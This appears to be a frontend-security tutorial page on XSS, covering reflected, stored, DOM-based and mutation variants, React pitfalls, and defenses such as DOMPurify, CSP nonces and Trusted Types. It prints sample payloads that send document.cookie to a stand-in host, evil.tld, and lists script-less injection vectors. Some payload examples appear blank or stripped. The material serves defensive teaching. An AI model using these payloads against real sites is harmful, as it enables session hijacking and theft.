



# Frontend security — Beat 1: XSS & injection

> If you only ever learn one frontend-security topic deeply, learn this one. Cookies, CSP, COOP, Trusted Types, `HttpOnly`, `SameSite`, sandboxed iframes, even why you should never `npm install` from a stranger's repo — every single one of those defenses exists because **XSS exists**.

**Series:** [Hub](../frontend-security/) · **Beat 1 (this page)** · [Beat 2 — cross-origin](../frontend-security-cross-origin/) · [Beat 3+4 — auth & headers](../frontend-security-auth-and-headers/)

---

## The problem

You're shipping `coinflip.shop`, a small storefront. You add three tiny features, none of them feel risky:

1. A **search bar** — `/search?q=shoes` echoes `Results for: shoes` on the page.
2. A **product reviews** section — users write text, the next visitor sees it.
3. A **profile page** — when the URL is `/profile#name=Ada`, JS reads `location.hash` and prints "Welcome, Ada".

Three weeks later a security researcher emails three URLs that each let them log in **as your CEO** while she browses the site. They never breach your server. They never break TLS. They never guess a password. They just send three links and win.

Those three URLs are the three classical flavors of **XSS** — *reflected*, *stored*, and *DOM-based*. We'll trace all three and end with the modern defenses (CSP nonces, Trusted Types) that interviewers love.

---

## The mental model — *one* idea behind all XSS

The browser's HTML parser doesn't know what's "code from the developer" vs "code from the URL bar." It just sees a stream of bytes and asks one question: **does this look like a tag?** If yes, it's code. If no, it's data.

> **XSS is what happens when attacker-controlled bytes end up in a place the browser was expecting code.**

That's it. That's the whole disease. Every defense is a variant of "make sure the bytes that came from the user can't be interpreted as code at the point they're inserted."

The trust boundary that gets crossed:



The killer phrase is **"in YOUR origin."** Once attacker JS runs in your origin, *the browser treats it as your code*. It can do anything your real JS can do — call your APIs as the logged-in user, read everything on the page, rewrite the DOM. There is no privilege boundary between "JS the developer wrote" and "JS that arrived via a URL parameter."

---

## Flavor 1 — Reflected XSS (the search box)

```js
// server.js — the version that ships Friday afternoon
app.get('/search', (req, res) => {
  const q = req.query.q ?? '';
  res.send(`
    <h1>Results for: ${q}</h1>
    <ul id="results"></ul>
    <script>fetch("/api/search?q=${q}").then(/* render */)</script>
  `);
});
```

Researcher's URL:

```
https://coinflip.shop/search?q=<script>fetch('https://evil.tld/x?c='+document.cookie)</script>
```

Trace it through:

1. Victim clicks the link (sent in DM, email, embedded in another page).
2. Victim's browser sends `GET /search?q=<script>...`.
3. Server interpolates `q` into the HTML and sends it back. The response body is now `<h1>Results for: <script>fetch(...)</script></h1>`.
4. Victim's browser parses HTML. It sees a `<script>` tag. It runs it.
5. `document.cookie` is sent to attacker's server. Game over.

Why "reflected"? The payload **bounces off** the server back to the victim in the same request. Nothing is stored. The server is a dumb mirror.

```mermaid
sequenceDiagram
  participant Atk as Attacker
  participant Vic as Victim browser
  participant Srv as Your server
  participant Evil as evil.tld

  Atk->>Vic: "Click this link! 🎁"
  Vic->>Srv: GET /search?q=&lt;script&gt;...
  Srv->>Vic: HTML with payload echoed inline
  Note over Vic: Browser parses HTML,<br/>sees &lt;script&gt;, runs it
  Vic->>Evil: GET /x?c=session=abc123
  Note over Atk,Evil: Attacker now has<br/>victim's session cookie
```

### Why the "obvious fix" is wrong

> "I'll just escape `<` and `>` in `q` before interpolating."

Better, but only safe in the **HTML body** position. Look again — that vulnerable template has `q` interpolated **twice**:

```js
res.send(`
  <h1>Results for: ${q}</h1>            <!-- HTML context  -->
  <script>fetch("/api/search?q=${q}")</script>  <!-- JS string context -->
`);
```

If you escape `<>` only, this still wins:

```
?q=");fetch('https://evil.tld/?c='+document.cookie);//
```

After interpolation:

```html
<script>fetch("/api/search?q=");fetch('https://evil.tld/?c='+document.cookie);//")</script>
```

The `<` and `>` aren't even needed — we're already inside `<script>`. **Each context (HTML body, attribute, JS string, URL, CSS) needs its own encoding.** That's the senior takeaway: there is no single "escape function." There is only **encode for the destination context**.

---

## Flavor 2 — Stored XSS (the product reviews)

Users post reviews. Reviews go in the DB. Other users see them.

```jsx
function ReviewList({ reviews }) {
  return (
    <ul>
      {reviews.map(r => (
        <li key={r.id}>
          {/* "We need to render <b>bold</b> and <em>italic</em>!" */}
          <div dangerouslySetInnerHTML={{ __html: r.body }} />
        </li>
      ))}
    </ul>
  );
}
```

Attacker posts a single "review":

```html

```

Now **every** visitor who loads the product page runs the attacker's code as themselves. No URL needed, no link to click. The payload is **stored**. This is why stored XSS is the worst flavor — it weaponizes your popular pages into a mass-exploitation surface.

A telling detail: the payload doesn't even use `<script>`. The HTML5 spec says `` runs JS when image loading fails — and `src=x` will always fail. **Naive sanitizers that "remove `<script>` tags" miss almost every real XSS payload.** Other classics that don't need `<script>`:

- `<svg onload="...">`
- `<iframe srcdoc="<script>...">`
- `<a href="javascript:...">`
- `<style>@import "javascript:...";</style>` (legacy quirks)
- `<details ontoggle="...">` (HTML5)

Every new HTML feature is a new XSS vector. Maintaining your own blocklist is a losing game. Use a battle-tested library — **DOMPurify** is the de facto standard.

```js
import DOMPurify from 'dompurify';

<div dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(r.body) }} />
```

DOMPurify uses an **allowlist** model — it parses the input into a DOM tree and keeps only known-safe elements/attributes. That's the right shape: deny by default.

---

## Flavor 3 — DOM-based XSS (the profile hash)

Server returns clean HTML. No user input ever touches the server response. And yet:

```js
// /profile page, client-only
const params = new URLSearchParams(location.hash.slice(1));
const name = params.get('name') ?? 'guest';
document.getElementById('greeting').innerHTML = `Welcome, ${name}!`;
```

URL: `https://coinflip.shop/profile#name=`

The `#fragment` portion of the URL is **never sent to the server**. The bug exists entirely in client-side JS that reads from a *source* (`location.hash`) and writes to a *sink* (`innerHTML`).

That source → sink phrasing is the right vocabulary for DOM XSS:

| Source (attacker-controllable) | Sink (interprets as code) |
|---|---|
| `location.hash`, `location.search`, `location.pathname` | `.innerHTML`, `.outerHTML` |
| `document.referrer` | `document.write` |
| `window.name` | `eval`, `Function(str)`, `setTimeout(str, …)` |
| `postMessage` event data | `el.setAttribute('on*', …)` |
| `localStorage` / `sessionStorage` | `script.src = …`, `iframe.srcdoc = …` |
| Any `fetch`'d JSON not under your control | `el.insertAdjacentHTML` |



The fix is the same as everywhere: **don't let untrusted strings reach a sink that interprets them**. Use `textContent` instead of `innerHTML` when rendering text. Use `el.setAttribute('href', sanitizedUrl)` only after validating the URL scheme (see "javascript: URLs" below). For HTML, sanitize with DOMPurify *or* enforce **Trusted Types** (we'll get there).

---

## Flavor 4 — Mutation XSS (the spicy bonus)

Worth knowing for the senior interview because it shows you understand **why DIY sanitizers lose**.

You write a "safe" sanitizer that produces the string `'>`. Looks fine — the quotes balance, the `` has no event handler. You insert it via `innerHTML`. The browser **re-parses** that string, but its parser disagrees with yours about quote nesting and ends up materializing ` '> `, which (depending on the surrounding context) can produce an attribute that wasn't in your sanitizer's output.

The bug is that *the string you sanitize is not the DOM the browser builds.* Sanitizing strings is fundamentally fragile because the HTML parser is lenient and self-correcting. **Sanitize the parsed DOM, not the source string** — which is exactly what DOMPurify does.

The interview soundbite: "I avoid string-level sanitization because of mutation XSS — the parser will reinterpret what I produce. I delegate to a library that walks the parsed tree."

---

## React-specific traps

React escapes `{children}` for you, so this is safe:

```jsx
<h1>Hello {userName}</h1>  // userName="<script>" renders as literal text
```

But React leaves five doors open. A senior FE eng should know all five.

### 1. `dangerouslySetInnerHTML`

Already covered. The name is a feature — it's the only way to insert raw HTML in React, and the word `dangerously` reminds you to sanitize. **Always wrap with DOMPurify** (or render as text instead).

### 2. User-controlled `href` / `src` (the `javascript:` URL)

```jsx
<a href={profile.website}>Visit</a>
```

If `profile.website` is `javascript:fetch('//evil.tld/?c='+document.cookie)`, clicking the link runs JS in your origin. React 16+ logs a warning for `javascript:` URLs, and React 18+ blocks them in some cases — but you should **validate the URL scheme yourself**:

```js
const SAFE_SCHEMES = new Set(['http:', 'https:', 'mailto:']);
function safeHref(raw) {
  try {
    const u = new URL(raw, window.location.origin);
    return SAFE_SCHEMES.has(u.protocol) ? u.toString() : '#';
  } catch {
    return '#';
  }
}
```

### 3. SSR JSON injection

You hydrate Redux/server-state by serializing into a `<script>` tag:

```jsx
<script
  dangerouslySetInnerHTML={{
    __html: `window.__STATE__ = ${JSON.stringify(state)};`,
  }}
/>
```

Looks fine — `JSON.stringify` produces valid JSON, right? Yes, but the **HTML parser** scans for `</script>` *inside* script content. If `state` contains the string `</script><script>alert(1)</script>`, the parser ends your script tag early and starts a new one. Fix:

```js
const safe = JSON.stringify(state)
  .replace(/</g, '\\u003c')
  .replace(/-->/g, '--\\u003e')
  .replace(/<!--/g, '\\u003c!--');
```

Or use `serialize-javascript` from npm. **JSON-safe is not HTML-safe inside `<script>`.**

### 4. `ref` callbacks that call `.innerHTML`

```jsx
<div ref={el => el && (el.innerHTML = userBio)} />
```

You bypassed React's escaping. Same rules as plain DOM — sanitize.

### 5. Markdown / rich-text editors

Most "safe" Markdown renderers allow inline HTML by default for usability. Audit your config — `marked`, `markdown-it`, `react-markdown` all need explicit `html: false` or DOMPurify on output.

---

## Defenses, in the order you should apply them

There is no single fix. Layer these — every layer assumes the next one will fail.

### Layer 1 — Output encode at the sink, in the right context

The single most impactful rule: **encode based on where the value is going, not where it came from**. Your templating engine (React, Vue, Angular, modern Express templates) does HTML-body encoding for free. Attribute, URL, JS-string, and CSS contexts each need their own encoding — be aware when you build them by hand.



### Layer 2 — Sanitize where you must accept HTML

If users genuinely need to write `<b>bold</b>`, use **DOMPurify** with an explicit allowlist:

```js
DOMPurify.sanitize(input, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'li'],
  ALLOWED_ATTR: ['href', 'title'],
});
```

### Layer 3 — Content Security Policy (CSP)

CSP tells the browser "even if attacker JS gets injected, refuse to run it unless it has my nonce." A modern strict CSP looks like:

```
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-r4nd0m' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'none';
```

Every `<script>` you actually want to run gets `nonce="r4nd0m"`; injected `<script>` tags lack the nonce and the browser refuses them. Inline event handlers (`onerror=`, `onclick=`) are blocked outright. We cover CSP in depth in [Beat 4](../frontend-security-auth-and-headers/#csp--content-security-policy).

### Layer 4 — Trusted Types (Chrome / Edge today; W3C draft)

The newest defense and the one staff interviewers love asking about. The browser **refuses to assign a string to `.innerHTML`** at all unless the string has been minted by a *Trusted Type policy* you explicitly registered. It moves the audit surface from "every line of JS" to "the policies in this one file."

```html
<meta http-equiv="Content-Security-Policy"
      content="require-trusted-types-for 'script'; trusted-types app-policy">
```

```js
const policy = trustedTypes.createPolicy('app-policy', {
  createHTML: (raw) => DOMPurify.sanitize(raw, { RETURN_TRUSTED_TYPE: true }),
});

el.innerHTML = policy.createHTML(userBio);
// el.innerHTML = userBio;  // ← throws TypeError, browser refuses
```

The "huh, that's neat" moment for an interviewer: Trusted Types makes XSS impossible to *introduce* because the bug now fails *loudly at runtime in dev*. Without it, XSS is silent in dev and exploited in prod.

### Layer 5 — `HttpOnly`, `SameSite`, no-token-in-localStorage

Even if XSS happens, you want the blast radius small. `HttpOnly` cookies aren't readable from JS, so `document.cookie` returns nothing useful. `SameSite=Lax/Strict` blunts CSRF. Avoid storing access tokens in `localStorage` because XSS reads it instantly. We cover this in [Beat 3](../frontend-security-auth-and-headers/#part-1--auth--sessions).

---

## Whiteboard fragment

When the interviewer asks "how would you prevent XSS in a new app?" — say this in 60 seconds:

```text
1. Default to a framework that auto-escapes (React/Vue/Angular).
2. Never concatenate strings into HTML; if you must, encode for the *context*
   (body / attribute / URL / JS / CSS — they're different).
3. For user-provided HTML (Markdown, comments), sanitize with DOMPurify
   on an allowlist; never roll your own.
4. Validate URL schemes for href/src; only http(s) and mailto pass.
5. Set a strict CSP with nonces + 'strict-dynamic'; no 'unsafe-inline'.
6. Adopt Trusted Types in Chromium; gives compile-time-feeling safety
   for sinks at runtime.
7. Defense in depth: HttpOnly cookies, SameSite=Lax, no JWT in localStorage,
   short-lived tokens, refresh-token rotation.
```

That's the full senior answer in seven bullets. Each bullet is a paragraph if they push.

---

## Practice

XSS doesn't fit one LeetCode problem, but here are concrete drills that build real intuition:

- **Google's [XSS Game](https://xss-game.appspot.com/)** — six levels, increasing in subtlety, takes ~2 hours. Worth doing once.
- **[PortSwigger Web Security Academy](https://portswigger.net/web-security/cross-site-scripting)** — XSS labs (free). The DOM-based section is the gold mine.
- **Read [DOMPurify's `src/tags.js`](https://github.com/cure53/DOMPurify)** — eye-opening list of HTML elements that can execute code.
- **Audit one real component** in code you own that uses `dangerouslySetInnerHTML`. What's the source? Is it sanitized? In what context?

---

## Common interview questions

**What is XSS in one sentence?**
Attacker-controlled bytes ending up in a place the browser parses as code, so they execute in your origin with all the privileges your real JS has.

**Three flavors and how do you tell them apart?**
*Reflected* — payload bounces off the server in the same request (a malicious URL).
*Stored* — payload lives in your DB and re-poisons every visitor.
*DOM-based* — payload never touches the server; client-side JS reads from a `source` (e.g. `location.hash`) and writes to a `sink` (e.g. `innerHTML`).

**Why isn't "strip `<script>` tags" enough?**
Because ``, `<svg onload>`, `<iframe srcdoc>`, `javascript:` hrefs, and many others execute JS without a literal `<script>` tag. Use an allowlist-based parser like DOMPurify, not a denylist of strings.

**Why is `dangerouslySetInnerHTML` dangerous?**
It opts out of React's auto-escaping. Whatever string you pass is parsed as HTML. If that string came from user input and isn't sanitized, it's an XSS vector.

**Encoding vs sanitization — what's the difference, when do you use which?**
*Encoding* turns characters into safe representations for a specific context — `<` becomes `&lt;` for HTML body. Use it when you want to render the input *as data*. *Sanitization* parses the input as HTML and removes/rewrites unsafe parts. Use it when you must *preserve* some HTML (Markdown, rich text). Sanitization is strictly heavier and only needed when encoding is too restrictive.

**What is a CSP nonce and why does it stop XSS?**
A per-response random value placed on every legitimate `<script>` tag and declared in the `Content-Security-Policy` header. The browser refuses to execute any script (inline or external) that lacks the matching nonce. An injected `<script>` tag has no nonce, so it doesn't run.

**What does `'strict-dynamic'` add to CSP?**
It says "trust scripts loaded by already-trusted scripts." Lets you keep using webpack/Next-style dynamic chunk loading without listing every chunk URL in the CSP. Modern best practice: nonce + `'strict-dynamic'`, drop the URL allowlist.

**Trusted Types — what do they actually buy you?**
They make dangerous DOM sinks (`innerHTML`, `document.write`, `eval`, `script.src`) refuse strings unless the string was produced by a registered policy. Audit surface shrinks from "every JS file" to "the policies in one file." Chromium-only today, but reachable via polyfill in audit/dev mode for other browsers.

**What is mutation XSS and what does it teach you?**
The HTML parser sometimes builds a different DOM than the string you sanitized would suggest, because the parser is lenient and self-correcting. Lesson: sanitize the *parsed DOM*, not the source string. DOMPurify does this; rolling your own regex doesn't.

**Why is XSS strictly worse than CSRF?**
CSRF makes the user's browser send *one specific* state-changing request the attacker chose. XSS lets the attacker run *arbitrary* code in your origin — they can read tokens, call APIs as the user repeatedly, exfiltrate the DOM, even pivot to attack other origins via `postMessage`. XSS contains CSRF as a special case.

**A junior engineer says "we sanitize on input, so we're safe." What's the senior objection?**
Three problems. (1) Input sanitization assumes you know every place the value will be used, but contexts differ — HTML-safe is not URL-safe is not JS-string-safe. (2) The sanitization runs once, but the data is re-rendered forever; if the renderer changes (new component, new context), the sanitization is wrong. (3) Some valid input (`O'Brien`, code samples) gets mangled. The right rule is **encode at the sink, in the destination context**.

---

## References (external)

- OWASP — [Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/), [XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), [DOM-based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- [DOMPurify](https://github.com/cure53/DOMPurify) — the sanitizer.
- W3C — [Trusted Types](https://www.w3.org/TR/trusted-types/), Google web.dev — [Prevent DOM-based XSS with Trusted Types](https://web.dev/articles/trusted-types).
- Google — [XSS Game](https://xss-game.appspot.com/).
- PortSwigger — [Web Security Academy: XSS labs](https://portswigger.net/web-security/cross-site-scripting).

---

**Next:** [Beat 2 — Cross-origin attacks (SOP, CORS, CSRF, clickjacking, postMessage)](../frontend-security-cross-origin/) — what attackers do when they can't get code into your origin.
